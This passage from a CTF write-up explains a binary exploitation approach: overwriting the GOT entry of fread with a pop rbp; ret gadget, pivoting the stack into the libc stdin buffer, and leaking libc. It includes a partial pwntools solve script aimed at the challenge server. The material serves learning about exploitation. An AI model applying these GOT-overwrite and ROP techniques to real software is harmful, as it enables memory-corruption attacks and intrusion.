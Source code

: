 If we overwrite the GOT entry of `fread` with a `pop rbp; ret` gadget, then the `call` instruction essentially turns into a `ret` instruction: the `pop rbp` will pop off the return address pushed by the `call`, and then the `ret` will return to the next address on the stack.
The value that was supposed to be the first argument of `fread` will now be left in `rdi`, so now we can control `rdi`.
With `rdi` control, we can leak libc with `puts`.

One issue is that the `leave; ret` at the end of that sequence will mess up `rsp` and break our ROP chain.
It pops the value 16 bytes after the first byte that we overwrote into `rbp`, and returns to the next value.
Since our write is 32 bytes, we control the value that gets popped into `rbp` and the return address.
Therefore, we can just stack pivot again with a `leave; ret` gadget.

A second issue is that if we call any functions with `rsp` in the libc stdin buffer, the function will use the area before `rsp` as stack space and overwrite the data in the buffer that we want `fread` to read.
To solve this, I put the ROP chain 2048 bytes after the start of the buffer so that data at the beginning of the buffer won't get overwritten.

After we overwrite the GOT entry for a function like `fread` or `puts`, we can no longer call the function by jumping to its PLT entry since that would jump to the overwritten address in the GOT.
Instead, we can jump to the second instruction in the PLT entry, which will lead to code that will look up the correct address of the function and jump there.
This will also restore the GOT entry, which is a problem for `fread` since it would break our gadget for setting `rdi`.
I was able to solve this later by overwriting the `fread` GOT entry back to the `pop rbp; ret` gadget every time I called `fread` this way.

The solve script so far looks like this:

```python
from pwn import *

exe = ELF("./stuff")
libc = ELF("./libc.so.6")

context.binary = exe

# r = process([exe.path])
# r = gdb.debug([exe.path])
r = remote("lac.tf", 31182)

# Get heap leak
r.sendlineafter(b"stuff\n", b"1")
r.recvuntil(b"leak: ")
leak = int(r.recvline(keepends=False), 0)
log.info(f"{hex(leak)=}")
# Address of libc stdin buffer
buffer_addr = leak - 0x1010
log.info(f"{hex(buffer_addr)=}")

# Instructions before the call to fread at the end of main, used to overwrite GOT and control rdi
fread_gadget = 0x40120F
# Instructions before the call to scanf, used to control rsi after scanf GOT is overwritten
rsi_gadget = 0x4011B0
# Instructions at the end of the loop before the jump back to puts, used to control eax after puts GOT is overwritten
eax_gadget = 0x401207
# Instruction before the call to fread that moves rax to rdi
rax_to_rdi_gadget = 0x401227
# Number of bytes from the start of the libc input buffer to the second half of the payload
# The gap in the middle is stack space for the functions
rop3_offset = 2048

```